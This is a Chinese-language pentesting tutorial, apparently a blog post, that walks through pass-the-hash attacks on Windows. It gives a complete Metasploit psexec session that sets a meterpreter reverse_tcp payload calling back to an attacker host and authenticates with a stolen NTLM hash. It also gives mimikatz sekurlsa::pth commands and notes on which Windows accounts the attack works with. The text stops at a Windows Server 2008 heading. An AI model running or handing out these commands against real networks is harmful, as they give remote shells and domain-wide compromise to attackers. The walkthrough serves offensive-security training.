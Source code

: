 ![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**MSF 进行哈希传递攻击 PtH(域)**

当我们获取到了域管理员组内用户的密码哈希值 ，并且该主机的 445 端口打开着。我们则可以利用 exploit/windows/smb/psexec 模块用 MSF 进行哈希传递攻击。

**域环境，域管理员组内用户即可**

```
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.11
msf exploit(psexec) > set rhost 192.168.10.131
msf exploit(psexec) > set smbuser test   #test用户在域管理员组内，注意这里不需要写域前缀
msf exploit(psexec) > set smbpass AADA8EDA23213C020B0C478392B5469F:51B7F7DCA9302C839E48D039EE37F0D1
msf exploit(psexec) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR1Sozd7ibicvo3fXSoNHM1HgcVf94ORicxXYXeP4iaibYxhUgGPw9RJU5GKw/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**mimikatz 进行哈希传递攻击 PtH(工作组)**

*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    
*   Windows Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户 (包括管理员用户但是非 administrator) 也不能使用哈希传递攻击，会提示拒绝访问。
    

```
privilege::debug    #先提权
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希
```

**Windows Server 2003**

本地管理员：

*   administrator
    
*   xie
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRdbz0nWXtMjDic8ibLXvf45lbFY3dPrFNE0bgAolV8b4uPlR79GSHeFnw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRzn28tOhS2q9vAGRqgy8tpCTY6ydI1FTUuOrH4qFliagBu0hicl62rrsg/640?wx_fmt=png)

**Windows Server 2008** 

本地管理员：

*   administrator
    